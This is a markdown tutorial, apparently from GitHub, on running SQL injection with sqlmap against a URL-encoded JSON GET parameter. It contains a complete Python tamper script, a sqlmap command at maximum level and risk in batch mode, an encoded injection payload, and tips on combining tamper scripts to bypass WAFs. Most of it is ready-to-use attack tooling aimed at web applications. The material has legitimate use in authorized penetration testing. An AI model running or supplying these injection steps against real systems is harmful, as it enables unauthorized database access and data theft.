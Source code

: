 # SQLMap Injection with Custom Tamper Script for JSON in URL-Encoded GET Parameter

## Table of Contents

* Goal
* Scenario
* Custom Tamper Script
* SQLMap Usage
* Example
* Tips and Considerations
* References

---

## Goal

Use `sqlmap` to perform SQL injection on a URL-encoded JSON object passed as a GET parameter. The JSON will contain a `"%s"` placeholder where the SQL payload will be injected. A custom tamper script will insert the payload and URL-encode the final JSON string.

---

## Scenario

Target URL example:

```
http://target.com/api/user?data=%7B%22id%22%3A%22%s%22%7D
```

Decoded value of the `data` parameter:

```json
{"id": "%s"}
```

We want `sqlmap` to inject into the `id` field inside the JSON string.

---

## Custom Tamper Script

Create a Python tamper script to be used by `sqlmap`. This script will replace `%s` with the payload, and URL-encode the resulting JSON string.

Save the following code as `json_urlencode_s_placeholder.py` in the `tamper/` directory of your `sqlmap` installation.

```python
# tamper/json_urlencode_s_placeholder.py

import urllib.parse
from lib.core.enums import PRIORITY

__priority__ = PRIORITY.NORMAL

def tamper(payload, **kwargs):
    """
    Replace %s in a JSON template with the payload, and URL-encode the result.
    Template: {"id": "%s"}
    """
    if not payload:
        return payload

    json_template = '{"id": "%s"}'
    injected = json_template % payload
    encoded = urllib.parse.quote(injected)
    return encoded
```

This script performs the following steps:

1. Inserts the payload into the `{"id": "%s"}` template.
2. URL-encodes the complete JSON string.
3. Returns the encoded string for use in the GET request.

---

## SQLMap Usage

Run `sqlmap` using the tamper script with the following command:

```bash
sqlmap -u "http://target.com/api/user?data=%7B%22id%22%3A%22%s%22%7D" \
--tamper=json_urlencode_s_placeholder \
--method=GET \
--level=5 --risk=3 \
--batch
```

In some cases, `sqlmap` may not recognize `%s` as the injection point. If that happens, use a placeholder like `INJECT_HERE` in the URL and modify the tamper script to replace that instead of `%s`.

---

## Example

Input URL to `sqlmap`:

```
http://target.com/api/user?data=%7B%22id%22%3A%22%s%22%7D
```

When `sqlmap` injects a payload like:

```
1' OR '1'='1
```

The tamper script transforms it into:

```json
{"id": "1' OR '1'='1"}
```

Which becomes URL-encoded as:

```
%7B%22id%22%3A%221%27%20OR%20%271%27%3D%271%22%7D
```

Final request:

```
http://target.com/api/user?data=%7B%22id%22%3A%221%27%20OR%20%271%27%3D%271%22%7D
```

---

## Tips and Considerations

* The `%s` placeholder must be inside double quotes in the JSON string.
* Use `--skip-urlencode` if you want to avoid additional encoding by `sqlmap`.
* Use a proxy (`--proxy=http://127.0.0.1:8080`) with a tool like Burp Suite to verify requests.
* Combine this tamper script with others for bypassing filters or WAFs if necessary.
* Use `--flush-session` if previous testing data is cached and causing issues.

---

## References

* [https://github.com/sqlmapproject/sqlmap](https://github.com/sqlmapproject/sqlmap)
* [https://github.com/sqlmapproject/sqlmap/wiki/Tamper-scripts](https://github.com/sqlmapproject/sqlmap/wiki/Tamper-scripts)
* [https://owasp.org/www-community/attacks/JSON\_Injection](https://owasp.org/www-community/attacks/JSON_Injection)
